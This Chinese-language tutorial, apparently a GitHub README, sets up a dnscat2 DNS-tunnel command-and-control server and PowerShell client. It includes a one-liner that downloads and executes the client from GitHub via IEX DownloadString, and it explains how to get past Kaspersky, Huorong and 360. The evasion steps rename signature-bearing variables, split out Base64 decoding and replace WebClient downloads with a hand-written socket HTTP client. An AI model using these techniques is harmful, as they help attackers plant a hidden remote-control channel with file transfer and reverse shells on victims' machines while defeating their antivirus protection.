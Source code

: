 
### 作者: Mob2003

github地址
```url
https://github.com/Mob2003/HighAvailabilityApt1
```

### 1、简介

dnscat2是一个DNS隧道工具，通过DNS协议创建加密的命令和控制通道，它的一大特色就是服务端会有一个命令行控制台，所有的指令都可以在该控制台内完成。包括：文件上传、下载、反弹Shell……

### 2、服务端安装

项目地址

```shell
https://github.com/iagox86/dnscat2
```

ubuntu 20.04安装说明

```shell
apt install ruby-dev
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
gem install bundler
bundle install
```

启动服务端

```shell
ruby ./dnscat2.rb --no-cache --secret=12345678 www.baidu.com
```

### 3、powershell客户端使用

项目地址

```shell
https://github.com/lukebaggett/dnscat2-powershell
```

打开powershell

```shell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1')
```

连接服务器

```shell
start-Dnscat2 -PreSharedSecret 12345678 -DNSServer 服务器ip  -Domain www.baidu.com
```

如果一切正常，你就可以在服务器上命令行看到New window created
![image](https://user-images.githubusercontent.com/128351726/230552554-32ee3c72-d2ab-4d3e-9b0a-a1d742f681cf.png)


### 4、靶机测试

靶机win10，安装《卡巴斯基》，《火绒》，《360》软件
执行上面命令，这时候会发现有两个问题

- IEX Download后被杀
- 输入命令还没下载就被关掉窗口

### 5、过静态查杀

针对第一个问题，下载ps1源码，对其中变量名，函数调用进行修改与打乱即可，特征大概有两个

1. 源码第三行 $EncodedCompressedFile 

2. 源码第六行，连续调用IO.Compression.DeflateStream 与[IO.MemoryStream][Convert]::FromBase64String
   那么只需要对$EncodedCompressedFile 改个名字，另外再把Frombase64String提取出来做个函数，如下图

![image](https://user-images.githubusercontent.com/128351726/230552595-002a4fe4-9fd2-4bfd-a989-7e3d5102904a.png)


   现在使用各大软件扫描，静态查杀已经通过
  ![image](https://user-images.githubusercontent.com/128351726/230552704-80dd3275-5ccc-4a01-83bf-2b37b7cf9424.png)
   
   ### 6、绕过DownloadString限制
   
   高达300多kb的客户端，如果靶机没有文件上传的话，还是很麻烦的，所以要想办法从powershell下载执行。
   经测试360把Webclient的所有下载方法都进行了hook检测，只要有下载动作就强行下载。这里我的解决方案就是，使用socket编程，手撸一个http客户端
   注意，只支持http，不支持https
  ![image](https://user-images.githubusercontent.com/128351726/230552751-91b673ba-cd99-40ee-b901-4215676808c4.png)

拷贝到powershell上执行，没有问题
![image](https://user-images.githubusercontent.com/128351726/230552874-28a2a6ca-b1e1-4825-811f-153f16a60e63.png)



